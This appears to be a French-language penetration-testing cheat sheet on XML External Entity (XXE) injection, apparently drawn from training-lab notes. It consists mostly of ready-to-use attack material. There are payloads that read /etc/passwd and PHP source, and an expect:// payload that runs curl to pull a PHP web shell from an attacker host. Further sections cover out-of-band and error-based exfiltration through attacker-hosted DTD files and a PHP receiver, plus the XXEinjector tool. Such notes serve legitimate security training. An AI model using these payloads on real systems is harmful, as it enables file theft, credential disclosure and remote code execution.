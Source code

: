 
| Key           | Definition                                                                                                    | Example                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------- | ---------------------------------------- |
| `Tag`         | The keys of an XML document, usually wrapped with (`<`/`>`) characters.                                       | `<date>`                                 |
| `Entity`      | XML variables, usually wrapped with (`&`/`;`) characters.                                                     | `&lt;`                                   |
| `Element`     | The root element or any of its child elements, and its value is stored in between a start-tag and an end-tag. | `<date>01-01-2022</date>`                |
| `Attribute`   | Optional specifications for any element that are stored in the tags, which may be used by the XML parser.     | `version="1.0"`/`encoding="UTF-8"`       |
| `Declaration` | Usually the first line of an XML document, and defines the XML version and encoding to use when parsing it.   | `<?xml version="1.0" encoding="UTF-8"?>` |

# Local File Disclosure

## Identifier

> [!TIP]
> Identifier une entrée utilisateur qui accepte du #XML
> Identifier les éléments qui sont réfléchis dans la réponse, ils serviront de point d'entrée.

DTD = Document Type Definition -> Définit la structure et les éléments et attributs du document XML.

Rajouter le DOCTYPE dont le DTD est email sous la première ligne (si non défini, si c'est le cas rajouter juste le ENTITY).

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Pointer vers l'Entité company déclarée dans le DOCTYPE et voir si la valeur indiquée est réfléchie dans la réponse -> Si c'est le cas alors vulnérable.

```xml
<email>
&company;
</email>
```

> [!TIP]
> Changer le content type si le format est en JSON et convertir les données JSON en XML
> 
> https://www.convertjson.com/json-to-xml.htm

## LFI (Local File Inclusion)

### Fichiers system

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<email>
&company;
</email>
```

> [!TIP]
> Possible de lister les dossier sur certaines applications JAVA

### Fichiers PHP

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<email>
&company;
</email>
```

---

## RCE (Remote Code Execution)

### PHP expect module -> permet d'executer des commandes

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<email>
&company;
</email>
```

> [!TIP]
> Eviter d'utiliser les caractères | > et { pour ne pas casser le code.

> [!TIP]
> TESTER SSRF

---

## Exfiltration avancée avec CDATA

> [!TIP]
> Permet d'insérer des fichiers contenant des caractères spéciaux, sans être limité au format PHP

```BASH
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Error Based XXE

> [!TIP]
> Référencer une entité qui n'existe pas ou modifier une balise pour générer une erreur

```BASH
echo '<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

---

# #Blind Data Exfiltration
## Out-of-band Data Exfiltration

Dans fichier xxe.dtd en local:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

Dans fichier index.php en local:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Lancer serveur php:

```bash
php -S 0.0.0.0:8000
```

XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

> [!TIP]
> Voir DNS OOB Exfiltration

## Automated OOB Exfiltration

https://github.com/enjoiz/XXEinjector

Copier et enregistrer la requête HTTP depuis BURP et ecrire XXEINJECT sous la première ligne

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```bash
ruby XXEinjector.rb --host=[IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

Fichiers exfiltrés dans sous dossier "Logs"